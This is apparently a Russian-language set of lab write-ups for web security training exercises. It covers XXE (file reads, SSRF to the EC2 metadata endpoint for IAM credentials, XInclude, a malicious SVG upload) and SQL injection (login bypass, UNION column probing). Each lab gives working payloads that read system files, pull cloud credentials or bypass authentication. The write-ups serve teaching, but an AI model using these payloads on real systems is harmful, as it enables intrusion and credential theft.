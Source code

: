# XXE

## Lab: Exploiting XXE using external entities to retrieve files

После поверхностной инспекции содержимого сайта, можно заметить форму stockCheckForm, расположенную внизу страницы конкретного продукта, например /product?productId=1. Отправка этой формы инициирует передачу данных в XML формате, что ввиду некорректной проверки содержимого приводит к уязвимости, эксплуатация которой возможна при при создании сущности <br>
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
<br>
и ее вызове &res; в скрытом параметре productId.
____

## Lab: Exploiting XXE using external entities to retrieve files

В описании задания сказано, что необходимо получить "IAM secret access key from the EC2 metadata endpoint". Путем чтения доков ПО EC2, [обнаруживаем](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html), что для роли admin указанное выше можно получить по пути <br>
```url
/latest/meta-data/iam/security-credentials/
```
доступном на 80 порту
169.254.169.254.<br>
После мы эксплуатируем SSRF, отправляя аналогично предыдущему заданию запрос с XXE
```xml
<!DOCTYPE foo [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]> 
```
и добавляя вызов сущности в productId.
____

## Lab: Exploiting XInclude to retrieve files

Отправляя checkstock, добавляем в productId

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```
____


## Lab: Exploiting XXE via image file upload
Замечаем возможность добавлять комментарии под постами и прикреплять к комментариям изображение. <br>
Загражаем файл 1.svg со следующим содержимым:
```xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
На картинке рядом с нашим комментарием появляется hostname.

____

# SQL

## Lab: SQL injection vulnerability allowing login bypass

Манипуляции с productId не дают положительных результатов, так как, по видимому, значение данного параметра экранируется. Замечаем форму логина. В поле Username вводим:
```
administrator' or '1'='1 --
```
и произвольную последовательность символов длины 1 в поле password, так как 
### ***"Please fill out this field!"***.
____

## Lab: SQL injection UNION attack, finding a column containing text

Выбрав категорию ```'+or+1=1--```, замечаем, что нам отобразились все продукты, что говорит о наличии уязвимости SQLi.<br>
Определяем количество столбцов возвращаемых основным запросом:
```
/filter?category='+union+select+NULL+--
/filter?category='+union+select+NULL,NULL+--
/filter?category='+union+select+NULL,NULL,NULL+--
...
```
Оказывается, их 3. Предпологается, что первый столбец содержит (это распространенная практика) цифровой уникальный идентификатор id продукта, поэтому, так как в лабораторке от нас требуется возвращение SQL-запросов конкретной строки, вписываем на место второго столбца ___%uniquestrng%___, написанную под __'Back to lab home'__.
Получается запрос
```
ilter?category='+union+select+NULL,'0qOP0A',NULL+--
```
